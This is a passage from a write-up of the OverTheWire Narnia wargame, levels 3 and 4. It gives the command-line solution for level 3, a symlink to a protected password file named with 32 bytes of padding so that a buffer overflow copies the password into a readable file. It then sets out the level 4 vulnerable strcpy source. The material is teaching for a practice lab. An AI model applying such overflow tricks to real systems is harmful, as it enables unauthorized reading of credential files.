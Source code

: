 We want two things happening in *ifile*: first, to read the password file, then to overflows *ofile*, making it to point to a file we have access to read.

The best way to put all of this in one input name is creating a symbolic link with the following rules:

1. Point to */etc/narnia_pass/narnia4*.
2. Fill the 32 bytes of the *ifile* array with junk.
3. End with a some file name which we  had created before, and we have permission to read (we can just use ```touch``` to create an empty file).

The result, for a file name *out*, is:
```sh
$ ln -s /etc/narnia_pass/narnia4 $(python -c "print 'A'*32 + 'out'")
```

Now we can just run it and retrieve our password:
```sh
narnia3@melinda:/tmp$ /narnia/narnia3 `python -c "print 'A'*32 + 'out'"`copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAout to a safer place... (out)
narnia3@melinda:/tmp$ cat out
```





_______


## Level 4: Classic Buffer Overflow with NOP

### Step 1: Understanding the Problem

This  fifth level starts with:

```sh
narnia4@melinda:/narnia$ ./narnia4
narnia4@melinda:/narnia$ cat narnia4.c

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
  int i;
  char buffer[256];

  for(i = 0; environ[i] != NULL; i++)
    memset(environ[i], '\0', strlen(environ[i]));

  if(argc>1)
    strcpy(buffer,argv[1]);

  return 0;
}
```


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP